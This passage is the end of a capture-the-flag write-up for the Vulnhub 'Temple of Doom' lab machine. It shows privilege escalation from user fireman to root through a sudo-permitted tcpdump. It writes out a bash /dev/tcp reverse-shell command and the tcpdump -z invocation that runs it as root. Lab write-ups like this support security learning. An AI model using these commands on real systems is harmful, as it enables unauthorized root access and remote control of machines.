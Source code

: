   <img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Temple%20of%20Doom/images/firemanlogin.jpg?raw=true">

* ### We see that we have succesfully logged in as user **fireman**.

* Let's check what **fireman** can run as **root** with `sudo -l`

  <img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Temple%20of%20Doom/images/sudol.jpg?raw=true">

* Referring to <a href="https://gtfobins.github.io/">GTFObins</a>, we see that we can use **tcpdump** to our advantage and execute commands as **root!**.

* Create a script called **rootshell.sh** in `/tmp/` in current shell, put `bash -i >& /dev/tcp/10.0.2.15/4444 0>&1` inside it, `chmod +x /tmp/rootshell.sh` it and start a listening session on port **4444** on your Kali machine.

* Now run `sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/rootshell.sh -Z root` as user **fireman**.
* Checking our session on port **4444**, reveals we have succesfully gained a **root shell!**.

  <img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Temple%20of%20Doom/images/slast.jpg?raw=true">

## Flag  

  <img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Temple%20of%20Doom/images/last.jpg?raw=true">
